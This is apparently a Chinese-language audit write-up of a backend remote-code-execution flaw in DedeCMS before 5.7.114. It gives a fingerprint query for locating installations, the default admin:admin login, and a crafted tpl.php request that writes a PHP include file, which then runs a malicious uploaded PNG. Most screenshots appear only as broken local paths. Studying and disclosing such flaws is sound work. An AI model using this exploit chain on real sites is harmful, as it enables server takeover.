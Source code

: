 # ***\*指纹信息\****

app="DedeCMS" && icon_hash="-47597126"![img](file:///C:\Users\28032\AppData\Local\Temp\ksohtml13684\wps86.jpg)

# ***\*漏洞情况\****

上海卓卓网络科技有限公司，后台存在RCE漏洞，攻击者可以利用此漏洞获取服务器权限

# ***\*影响版本\****

此漏洞涉及版本为DeDeCMS<5.7.114版本

# ***\*审计过程\****

在官网下载好源码使用

![img](file:///C:\Users\28032\AppData\Local\Temp\ksohtml13684\wps87.jpg) 

## **漏洞涉及文件** 

 dede/tpl.php

![img](file:///C:\Users\28032\AppData\Local\Temp\ksohtml13684\wps88.jpg) 

在代码当中可以看到fwrite写入函数，其中第一个变量fp指定了一个文件为一个变量为truefile 其中truefile 是可控的

![img](file:///C:\Users\28032\AppData\Local\Temp\ksohtml13684\wps89.jpg) 

![img](file:///C:\Users\28032\AppData\Local\Temp\ksohtml13684\wps90.jpg) 

 并且 content 变量也是可控的

![img](file:///C:\Users\28032\AppData\Local\Temp\ksohtml13684\wps91.jpg) 

到这里大致的思路就明白了，使用fwrite函数进行了文件写入，写入文件为

1.lib.php,方便我们写入一句话，然后写入内容为content 变量，这

个变量我们可控，开始尝试写入一下

## **漏洞复现**

登陆后台 默认密码为admin:admin

![img](file:///C:\Users\28032\AppData\Local\Temp\ksohtml13684\wps92.jpg) 

 

url/dede/tpl.php?filename=1.lib.php&action=savetagfile&content=<?=include_once("../../1.png");&token=[你的token]

 

![img](file:///C:\Users\28032\AppData\Local\Temp\ksohtml13684\wps93.jpg) 

写入成功文件名为1.lib.php 

![img](file:///C:\Users\28032\AppData\Local\Temp\ksohtml13684\wps94.jpg) 

![img](file:///C:\Users\28032\AppData\Local\Temp\ksohtml13684\wps95.jpg) 

写入的内容为

![img](file:///C:\Users\28032\AppData\Local\Temp\ksohtml13684\wps96.jpg) 

其中变量content 存在过滤一些危险函数

![img](file:///C:\Users\28032\AppData\Local\Temp\ksohtml13684\wps97.jpg) 

通过写入php包含的函数，在进行上传一个带有恶意代码的png图片进行RCE

上传1.png图片 url/dede/file_manage_main.php

![img](file:///C:\Users\28032\AppData\Local\Temp\ksohtml13684\wps98.jpg) 

访问1.lib.php文件 url/include/taglib/1.lib.php

![img](file:///C:\Users\28032\AppData\Local\Temp\ksohtml13684\wps99.jpg) 

成功RCE

 

 